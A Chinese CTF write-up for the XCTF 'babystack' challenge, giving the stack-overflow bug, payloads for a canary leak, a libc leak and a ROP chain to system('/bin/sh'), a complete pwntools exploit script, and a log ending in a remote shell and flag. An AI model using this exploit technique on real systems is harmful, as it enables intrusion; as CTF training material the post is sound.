

<!--yml
category: 未分类
date: 2022-04-26 14:39:07
-->

# pwn1 babystack [XCTF-PWN][高手进阶区]CTF writeup攻防世界题解系列19_3riC5r的博客-CSDN博客_pwn题babystack

> 来源：[https://blog.csdn.net/fastergohome/article/details/103696411](https://blog.csdn.net/fastergohome/article/details/103696411)

题目地址：[pwn1 babystack](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=1&id=4598&page=1)

已经到了高手进阶区的第八题了，已经渐入佳境了。哈哈！

废话不说，看看题目先

厦门邀请赛的题目，还是2星难度，那就开工了。

管理检查一下保护机制：

```
[*] '/ctf/work/python/pwn1/babystack'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

开了一些保护机制：

1.  Full RELRO GOT表只读
2.  Canary found 需要绕过Canary
3.  NX 不能执行栈上代码

 好吧，各种保护机制的理解，大家还是要去看看资料，自行理解一下为什么系统要提供这些保护机制。

拿出IDA做下反编译



针对反编译之后的代码，做了一下变量和函数重命名，得到的结果是只有main函数有用，其他都是辅助函数

下面我把已经修改过名称的c语言代码贴出来，就一个函数main：

```
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  int v3; // eax
  char s; // [rsp+10h] [rbp-90h]
  unsigned __int64 v6; // [rsp+98h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  memset(&s, 0, 0x80uLL);
  while ( 1 )
  {
    menu_string();
    v3 = get_int();
    switch ( v3 )
    {
      case 2:
        puts(&s);
        break;
      case 3:
        return 0LL;
      case 1:
        read(0, &s, 0x100uLL);
        break;
      default:
        puts_wrap("invalid choice");
        break;
    }
    puts_wrap((const char *)&cNull);
  }
}
```

可以看到漏洞点就是 

```
read(0, &s, 0x100uLL);
```

读取的长度超过定义的长度

```
char s; // [rsp+10h] [rbp-90h]
```

> 关键步骤分析

 这个题目关键步骤是：

1.  利用栈溢出做canary泄露
2.  利用栈溢出做libc泄露，再通过libc确定system和/bin/sh
3.  利用栈溢出做rop链，执行system('/bin/sh')

我这里分别给出三次溢出的payload

1、canary泄露的payload：

```
payload = 'A'*(0x90-8)
```

2、libc泄露的payload：

```
pop_rdi_ret = 0x400a93
write_got = elf.got['write']
puts_plt = elf.plt['puts']
main_addr = 0x400908
payload = 'A'*(0x90-8) + p64(canary) + 'A'*8 + p64(pop_rdi_ret) + p64(write_got) + p64(puts_plt) + p64(main_addr)
```

3、rop链执行system('/bin/sh')

```
payload = 'A'*(0x90-8) + p64(canary) + 'A'*8 + p64(pop_rdi_ret) + p64(binsh_addr) + p64(system_addr) + p64(main_addr)
```

pop rdi; ret的指令寻找方式如下：

```
root@mypwn:/ctf/work/python/pwn1# ROPgadget --binary babystack --only 'pop|ret' | grep rdi
0x0000000000400a93 : pop rdi ; ret
```

根据三次payload，编写python代码如下：

```
#!python
#!/usr/bin/env python
#coding:utf8

from pwn import *

context.log_level = 'debug'
process_name = './babystack'
# p = process([process_name], env={'LD_LIBRARY_PATH':'./'})
p = remote('111.198.29.45', 45404)
elf = ELF(process_name)

def get_info():
	info = p.recvline()
	log.info("info => %s", info)
	return info

def store_info(payload):
	p.sendlineafter('--------\n>> ', '1')
	p.sendline(payload)
	return get_info()

def print_info():
	p.sendlineafter('--------\n>> ', '2')
	return get_info()

def quit_program():
	p.sendlineafter('--------\n>> ', '3')
	# return get_info()

payload = 'A'*(0x90-8)
store_info(payload)
print_info()
canary = u64(p.recvn(7).rjust(8, '\x00'))
log.info("canary => %#x", canary)

pop_rdi_ret = 0x400a93
write_got = elf.got['write']
puts_plt = elf.plt['puts']
main_addr = 0x400908
payload = 'A'*(0x90-8) + p64(canary) + 'A'*8 + p64(pop_rdi_ret) + p64(write_got) + p64(puts_plt) + p64(main_addr)
store_info(payload)
quit_program()
write_addr = u64(p.recvn(6).ljust(8, '\x00'))
log.info("write_addr => %#x", write_addr)

from LibcSearcher import *
libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')
log.info("system_addr => %#x", system_addr)
log.info("binsh_addr => %#x", binsh_addr)
payload = 'A'*(0x90-8) + p64(canary) + 'A'*8 + p64(pop_rdi_ret) + p64(binsh_addr) + p64(system_addr) + p64(main_addr)
store_info(payload)
quit_program()

p.interactive()
```

执行结果如下：

```
root@mypwn:/ctf/work/python/pwn1# python pwn1.py 
[+] Opening connection to 111.198.29.45 on port 45404: Done
[DEBUG] PLT 0x40068c puts
[DEBUG] PLT 0x4006a0 write
[DEBUG] PLT 0x4006b0 strlen
[DEBUG] PLT 0x4006c0 __stack_chk_fail
[DEBUG] PLT 0x4006d0 memset
[DEBUG] PLT 0x4006e0 read
[DEBUG] PLT 0x4006f0 setvbuf
[DEBUG] PLT 0x400700 atoi
[DEBUG] PLT 0x400710 exit
[*] '/ctf/work/python/pwn1/babystack'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[DEBUG] Received 0x2c bytes:
    '--------\n'
    '1.store\n'
    '2.print\n'
    '3.quit\n'
    '--------\n'
    '>> '
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Sent 0x89 bytes:
    'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n'
[DEBUG] Received 0x1 bytes:
    '\n'
[*] info => 
[DEBUG] Received 0x2c bytes:
    '--------\n'
    '1.store\n'
    '2.print\n'
    '3.quit\n'
    '--------\n'
    '>> '
[DEBUG] Sent 0x2 bytes:
    '2\n'
[DEBUG] Received 0x93 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000080  41 41 41 41  41 41 41 41  0a 0a 64 c5  f3 03 b2 6b  │AAAA│AAAA│··d·│···k│
    00000090  30 0a 40                                            │0·@│
    00000093
[*] info => AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[*] canary => 0x6bb203f3c5640a00
[DEBUG] Received 0x2e bytes:
    '\n'
    '\n'
    '--------\n'
    '1.store\n'
    '2.print\n'
    '3.quit\n'
    '--------\n'
    '>> '
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Sent 0xb9 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000080  41 41 41 41  41 41 41 41  00 0a 64 c5  f3 03 b2 6b  │AAAA│AAAA│··d·│···k│
    00000090  41 41 41 41  41 41 41 41  93 0a 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
    000000a0  b0 0f 60 00  00 00 00 00  8c 06 40 00  00 00 00 00  │··`·│····│··@·│····│
    000000b0  08 09 40 00  00 00 00 00  0a                        │··@·│····│·│
    000000b9
[DEBUG] Received 0x1 bytes:
    '\n'
[*] info => 
[DEBUG] Received 0x2c bytes:
    '--------\n'
    '1.store\n'
    '2.print\n'
    '3.quit\n'
    '--------\n'
    '>> '
[DEBUG] Sent 0x2 bytes:
    '3\n'
[DEBUG] Received 0x6 bytes:
    00000000  b0 22 77 90  2a 7f                                  │·"w·│*·│
    00000006
[*] write_addr => 0x7f2a907722b0
[+] ubuntu-xenial-amd64-libc6 (id libc6_2.23-0ubuntu10_amd64) be choosed.
[*] system_addr => 0x7f2a906c0390
[*] binsh_addr => 0x7f2a90807d57
[DEBUG] Received 0x2d bytes:
    '\n'
    '--------\n'
    '1.store\n'
    '2.print\n'
    '3.quit\n'
    '--------\n'
    '>> '
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Sent 0xb9 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000080  41 41 41 41  41 41 41 41  00 0a 64 c5  f3 03 b2 6b  │AAAA│AAAA│··d·│···k│
    00000090  41 41 41 41  41 41 41 41  93 0a 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
    000000a0  57 7d 80 90  2a 7f 00 00  90 03 6c 90  2a 7f 00 00  │W}··│*···│··l·│*···│
    000000b0  08 09 40 00  00 00 00 00  0a                        │··@·│····│·│
    000000b9
[DEBUG] Received 0x1 bytes:
    '\n'
[*] info => 
[DEBUG] Received 0x2c bytes:
    '--------\n'
    '1.store\n'
    '2.print\n'
    '3.quit\n'
    '--------\n'
    '>> '
[DEBUG] Sent 0x2 bytes:
    '3\n'
[*] Switching to interactive mode
$ cat flag
[DEBUG] Sent 0x9 bytes:
    'cat flag\n'
[DEBUG] Received 0x2d bytes:
    'cyberpeace{3901f42fc6a99d86ac8cc6cdaa6310e5}\n'
cyberpeace{3901f42fc6a99d86ac8cc6cdaa6310e5}
[*] Got EOF while reading in interactive
$ 
```

大家一定要开启debug模式，或者通过gdb去调试看看堆栈中的内容和我们设置的情况是否一致。

另外良好的编程习惯，函数化编程、对象化编程的思考方式可以让我们在编写代码的时候少走一些弯路。